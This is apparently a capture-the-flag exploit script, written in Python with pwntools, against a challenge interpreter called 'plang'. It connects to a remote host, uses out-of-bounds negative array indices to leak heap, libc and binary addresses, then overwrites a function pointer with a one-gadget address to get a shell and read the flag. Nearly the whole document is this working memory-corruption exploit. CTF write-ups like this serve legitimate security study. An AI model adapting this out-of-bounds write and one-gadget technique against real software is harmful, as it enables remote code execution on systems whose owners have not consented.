 
exploit script:
```python
from pwn import *
import struct
#r=process("./plang")
r=remote("111.186.63.210", 6666)


payload='''var a = "This is a Po"
System.print(a)
var b = [1, 0x123, 3, 7 , 8]
var c = [75, 0x123, 3, 7 , 0,40]
c[-0xe0]=1
c[-0xeaa]=1
System.print(c[0])
System.print(a[0x30]+a[0x31]+a[0x32]+a[0x33]+a[0x34]+a[0x35]+a[0x36]+a[0x37])
var lib=Num.toString
System.print(lib[0x18]+lib[0x19]+lib[0x1a]+lib[0x1b]+lib[0x1c]+lib[0x1d])
System.print(lib[0xd378]+lib[0xd379]+lib[0xd37a]+lib[0xd37b]+lib[0xd37c]+lib[0xd37d])
'''
# use payload to leak the addresses of heap, libc, text
r.sendline(payload)
r.recvuntil("75")
r.recvline()
r.recvuntil("> ")


k=r.recvline()[:-1]
heap=u64(k+"\x00\x00")-0xd710
print "heap:"+hex(heap)


r.recvuntil("> > ")
k=r.recvline()[:-1]
lib=u64(k+"\x00\x00")-0x3ebd20
print "lib:"+hex(lib)


r.recvuntil("> ")
k=r.recvline()[:-1]
text=u64(k+"\x00\x00")-0x11504
print "text:"+hex(text)


offset=0x16160+heap-text-0x21E050
print "offset:"+hex(offset)
print "function pointer:"+hex(text+0x21E050)
onegadget=lib+(0x4f322)
print "onegadget:"+hex(onegadget)

vv="%.330f" % struct.unpack("d",p64(onegadget))[0] #encode one gadget address

r.sendline("c["+"-"+str(offset/16)+"]="+vv)
r.sendline("var whatever=1") # trigger one gadget
r.sendline("cat flag") #flag{Th1s_language_is_4_bit_p00r}
r.interactive()
```
